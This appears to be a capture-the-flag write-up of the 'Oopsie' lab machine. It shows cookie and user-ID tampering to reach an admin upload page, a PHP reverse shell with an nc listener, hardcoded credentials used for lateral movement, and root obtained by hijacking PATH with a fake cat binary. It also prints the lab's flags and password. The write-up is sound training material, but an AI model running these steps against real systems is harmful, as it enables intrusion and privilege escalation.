




#### About

Oopsie is a very easy Linux machine that highlights the impact of information disclosure and broken access control in web applications. Website enumeration reveals a guest login with manipulatable cookies and user IDs allowing escalation to an admin role and access to a file upload feature. A PHP reverse shell is then uploaded to gain an initial foothold. Further enumeration exposes hardcoded credentials enabling lateral movement to another user. Finally, privilege escalation is achieved by abusing a misconfigured SUID binary through PATH hijacking.

- - - 

# What I did

> With what kind of tool can intercept web traffic?
> `proxy`

Using Burp Suite after setting up the proxy (Burp Suite acts as a proxy listener on `127.0.0.1:8080` by default to intercept browser traffic) I can view a site map in the target filter.
There seems to be a login script page in the cdn-cgi subfolder.




>What can be modified in Firefox to get access to the upload page?
>`Cookie`




After logging in as Guest, we land into this page. In the "uploads" tab, we can see that this action requires super admin rights. 
In the cookies F12 tab, we can see that we have two cookies. "role" defined to "guest" and "user" defined to "2233".

Let's try to modify the role value to 'admin'. It did not work directly.

I tried to click on the " account" tab. Here are being shown some info about the guest account. Something interesting is that the user id is passed as an URL GET argument.

http://10.129.95.191/cdn-cgi/login/admin.php?content=accounts&id=2

I modified the `id=2` to `id=1`. And I land into the admin user account info.



We can now see the admin's access ID.

After modifying the 'user' cookie value's to `34322`, the app now detects me as an admin and the upload page successfully appears.



>On uploading a file, what directory does that file appear in on the server?
/uploads

```bash
> gobuster dir -t 50 --url  http://10.129.95.191 --wordlist Documents/SecLists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.95.191
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                Documents/SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 312] [--> http://10.129.95.191/css/]
/fonts                (Status: 301) [Size: 314] [--> http://10.129.95.191/fonts/]
/images               (Status: 301) [Size: 315] [--> http://10.129.95.191/images/]
/index.php            (Status: 200) [Size: 10932]
/js                   (Status: 301) [Size: 311] [--> http://10.129.95.191/js/]
/server-status        (Status: 403) [Size: 278]
/themes               (Status: 301) [Size: 315] [--> http://10.129.95.191/themes/]
/uploads              (Status: 301) [Size: 316] [--> http://10.129.95.191/uploads/]
Progress: 4751 / 4751 (100.00%)
===============================================================
Finished
===============================================================
```

Let's try to upload a reverse shell php script into the machine.

Setting up a netcat listener on port 8888
> nc -lvnp 8888
Listening on 0.0.0.0 8888

Then visit the URL (the directory where the files are uploaded on the server is `/uploads`)
http://10.129.77.106/uploads/php-reverse-shell.php

We now have a reverse shell.

```bash
Connection received on 10.129.77.106 38996
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 11:32:09 up 4 min,  0 users,  load average: 0.05, 0.28, 0.15
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

upgrade to pTTY

`$ python3 -c 'import pty; pty.spawn("/bin/bash")'`

>What is the file that contains the password that is shared with the robert user?
>`db.php`

```bash
www-data@oopsie:/var/www/html/cdn-cgi$ cd login
cd login
www-data@oopsie:/var/www/html/cdn-cgi/login$ ls
ls
admin.php  db.php  index.php  script.js
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>

```

Let's try to login as user robert :

```bash
www-data@oopsie:/var/www/html/cdn-cgi/login$ su robert
su robert
Password: M3g4C0rpUs3r!

robert@oopsie:/var/www/html/cdn-cgi/login$ 
```

First of all, user robert flag is found :

```bash
robert@oopsie:~$ ls
ls
user.txt
robert@oopsie:~$ cat user.txt
cat user.txt
f2c74ee8db7983851ab2a96a44eb7981
robert@oopsie:~$ 

```

>What executible is run with the option "-group bugtracker" to identify all files owned by the bugtracker group?
>`find`

```bash
/usr/bin/bugtracker

www-data@oopsie:/var/www/html/cdn-cgi/login$ ls -l /usr/bin/bugtracker
ls -l /usr/bin/bugtracker
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker

```

The file is a script owned by root.

>Regardless of which user starts running the bugtracker executable, what's user privileges will use to run?
>`It will run as root`

>SUID stands for `Set Owner User ID`

```bash
robert@oopsie:~$ file /usr/bin/bugtracker
file /usr/bin/bugtracker
/usr/bin/bugtracker: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=b87543421344c400a95cbbe34bbc885698b52b8d, not stripped
```

We can see that the file has a setuid, which can be used to exploit and gain root privileges on the machine.

```bash
robert@oopsie:/var/www/html/cdn-cgi/login$ groups robert
groups robert
robert : robert bugtracker
```

Since robert is part of the bugtracker group, let's try to execute the script.

```bash
/usr/bin/bugtracker


------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 

232131
232131
---------------

cat: /root/reports/232131: No such file or directory

robert@oopsie:~$ 
```

The script tries to find a bug ID. If the file does not exist, it displays an error. We can see that the script uses cat to find the file.

Since cat relies on the PATH env variable to be called, and in the machine's about category it says : " Finally, privilege escalation is achieved by abusing a misconfigured SUID binary through PATH hijacking."

```bash
robert@oopsie:~$ echo $PATH
echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

When a command like cat is called, it will search the executable in every directory listed here.
My guess will be to create a "fake" cat command calling for a shell. Add the path to this fake script at the beginning of the $PATH.
When our bugtracker binary will be executed, it will call cat and it will find our "fake" cat script since it will be the first directory of the PATH variable.
Since our bugtracker binary has an SUID and is executed as root, we are supposed to get a shell as root.


```bash
robert@oopsie:~$ echo '/bin/bash' > /tmp/cat
echo '/bin/bash' > /tmp/cat
robert@oopsie:~$ chmod +x /tmp/cat
chmod +x /tmp/cat
```

Add the new /tmp/cat as first place in the PATH variable : 

export PATH="/your/new/path:$PATH"

```bash
robert@oopsie:~$ export PATH="/tmp:$PATH"         
export PATH="/tmp:$PATH"
robert@oopsie:~$ echo $PATH
echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
robert@oopsie:~$ 
```

/tmp is now first in the list.

Let's execute our bugtracker script again

```bash
/usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 123123
123123
---------------

root@oopsie:~# ls
ls
user.txt
root@oopsie:~# cat user.txt
cat user.txt


```

No result as cat because I modified it on this machine for privilege escalation, so the real unix script "cat" is not found.

We can use "head" to display the root flag.

```bash
root@oopsie:/# ls
ls
bin    dev   initrd.img      lib64       mnt   root  snap  tmp  vmlinuz
boot   etc   initrd.img.old  lost+found  opt   run   srv   usr  vmlinuz.old
cdrom  home  lib             media       proc  sbin  sys   var
root@oopsie:/# cd root
cd root
root@oopsie:/root# ls
ls
reports  root.txt
root@oopsie:/root# head root.txt
head root.txt
af13b0bee69f8a877c3faf667f7beacf
root@oopsie:/root# 

```


- - - 
# Things learned

Burp Suite to intercept traffic.
Cookie manipulation to login as admin and upload a reverse shell in PHP.

On the machine, find SUID script that can be executed as root.
PATH variable manipulation as fake cat script.
